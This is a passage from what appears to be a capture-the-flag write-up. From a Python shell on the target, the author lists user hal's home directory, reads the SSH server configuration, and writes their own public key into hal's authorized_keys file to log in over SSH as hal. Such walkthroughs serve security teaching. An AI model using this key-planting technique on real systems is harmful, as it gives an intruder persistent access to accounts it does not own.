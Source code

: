 ```
```
Cool, so we're running as the login user hal! Since he has a home directory, we should be able to see what's inside!
```
>>> __import__("subprocess").check_output(['ls', '-alt', '/home/hal'])
total 36
drwxrwx--- 5 hal  hal  4096 May  7 13:12 .
drwx------ 2 hal  hal  4096 Mar 10 17:33 .cache
drwx------ 3 hal  hal  4096 Mar 10 17:33 .gnupg
drwx------ 2 hal  hal  4096 Mar  9 19:30 .ssh
-rw------- 1 hal  hal   865 Mar  9 19:30 .viminfo
drwxr-xr-x 6 root root 4096 Mar  9 19:21 ..
-rw-r--r-- 1 hal  hal   220 Mar  9 19:20 .bash_logout
-rw-r--r-- 1 hal  hal  3771 Mar  9 19:20 .bashrc
-rw-r--r-- 1 hal  hal   807 Mar  9 19:20 .profile
```

Dang, no user.txt file yet! However, looks like we do have access to the .ssh file! However, before we do, let's take a look at the /etc/ssh/sshd_config file! (I also just realized that read() and write() worked as well...no need for the ugly output)
```
>>> f = open("/etc/ssh/sshd_config")
>>> print(f.read())
#	$OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

#Port 22
...
<trimmed>
...
#PubkeyAuthentication yes
...
...
```

Cool! The default option for PubkeyAuthentication is yes, so it doesn't matter if it's commented or not. However, since I can write to files, I can write my public key (id_rsa.pub) to the /home/hal/.ssh/authorized_keys file. Then, when I SSH, I can authenticate myself as hal using public key authentication!
```
>>> f = open("/home/hal/.ssh/authorized_keys", "w")
>>> f.write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPyihH7PidR/gKunh0WLsWlhI3j6i5D1Eb8WA+h26I3WTkryovr15QP8Eo3gaL0XVHGPw6ImdNkNC9GWcQKRwHXNQDLmrW1D9wZxopH/B7VRzniMvFE1i53lZuh1RXWGHzZ0a6XxC0BuhjID8RYKn4Jkhx8+Fp5lDvoXePfxzn4s+Z0/CgcT+j3dPog1jb2zjv1fpiqaQddjYcU/vMaH04lEPAzVYwoav9UHflcwRR/IlEKzJ0mPaffV/RVThf1cBg7MYp2+PNbg51Lp43IDhvAApp5q5+1QY8r3CLqD2c1+Gekkz9xTue6mO8KkvmKs7E0p5FJEhkH8WqKFDx1nEd root@kali")
390
>>> f.close()

```
Sure enough, after doing that, we gain access as hal!
